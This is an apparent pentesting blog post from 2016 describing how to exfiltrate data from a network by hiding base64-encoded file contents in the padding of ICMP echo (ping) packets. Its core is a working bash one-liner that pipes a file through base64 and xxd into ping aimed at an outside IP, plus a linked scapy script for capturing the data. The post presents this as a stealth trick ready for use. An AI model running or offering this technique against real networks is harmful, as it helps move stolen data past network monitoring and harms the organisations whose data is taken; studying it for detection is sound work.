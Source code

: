 Title: Data Exfiltration with Ping
Date: 2016-07-01 10:21
Category: Pentesting
Tags: ping, stealth, exfil, data
Slug: ping-exfil
Authors: wumb0

I was looking around Twitter the other day and someone had posted something similar to this. I don't remember who you are, but this is a neat trick so I wanted to share it. How to exfiltrate data from a network using the padding of ICMP echo request packets. 

## Sending data

```bash
base64 important-data.txt | xxd -ps -c 16 | while read i; do ping -c1 -s32 -p $i 8.8.8.8; done
```

This will base64 encode important-data.txt and then stuff the encoded data 16 bytes at a time into ping. 

Obviously you should change the IP before sending :)

## Receiving data
You can grab the data off the wire using scapy. Here's a short little script that takes an out file name as the first argument and then an optional interface name to listen on as the second argument.

<script src="https://gist.github.com/wumb0/fb0f48f410f074ceafc60c6e3fd07339.js"></script> 

That's all for now.

